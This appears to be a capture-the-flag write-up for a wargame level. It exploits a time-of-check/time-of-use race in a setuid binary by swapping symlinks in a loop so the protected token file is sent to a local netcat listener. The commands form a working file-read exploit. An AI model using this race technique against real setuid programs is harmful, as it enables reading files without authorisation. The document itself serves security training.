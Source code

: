 # Level 10

## Initial Context

- Two file: `level10` and `token`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

`level10` seems to send a file to a socket only if you have the permission:

```bash
$ ./level10
./level10 file host
        sends file to host if you have access to it

$ ./level10 token 127.0.0.1
You don t have access to token

$ ./level10 /etc/passwd 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1

# starting a netcat in the background
$ nc -lkvn 0.0.0.0 6969 &
[1] 27240

$ ./level10 /etc/passwd 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connection from 127.0.0.1 port 6969 [tcp/*] accepted
.*( )*.
Connected!
Sending file ..
...
wrote file!
```

But how to read the `token` file? The program seems to before check for the file permission, then try to open it.

```bash
$ ltrace ./level10 token 127.0.0.1
access("token", 4) = -1
printf("You don't have access to %s\n", "token") = 31
...
```

```bash
$ ltrace ./level10 /etc/passwd 127.0.0.1
access("/etc/passwd", 4) = 0
...
open("/etc/passwd", 0, 010) = 4
...
```

That means that if we manage to 'change' the file that is trying to be open just after the `access` check but just before the `open` call, it should works.

### Exploiting

By quickly changing the file, we should manage to randomly get the timing right. The `access` would check the dummy file, and the `open` would open the `token` file.

```bash
# create a dummy file
$ echo 'dummy' > /tmp/dummy

$ while true; do
  # link `/tmp/level10` to the dummy file
  ln -s /tmp/dummy /tmp/level10;
  # remove the link
  rm /tmp/level10;
  # link `/tmp/level10` to the token file
  ln -s ~/token /tmp/level10;
  # remove the link
  rm /tmp/level10;
done
```

In another terminal, start a netcat with filters to remove useless content:

```bash
$ nc -lkvn 0.0.0.0 6969 2>&1 | grep -v 'Connection from' | grep -v 'dummy' | grep -v '( )'
```

In again another terminal, start the `level10` executable in a loop:

```bash
$ while true; do
  ./level10 /tmp/level10 127.0.0.1;
done
```

After waiting a bit, the flag will appear on the netcat's terminal.

Now we can log into `flag10` and do `getflag`.
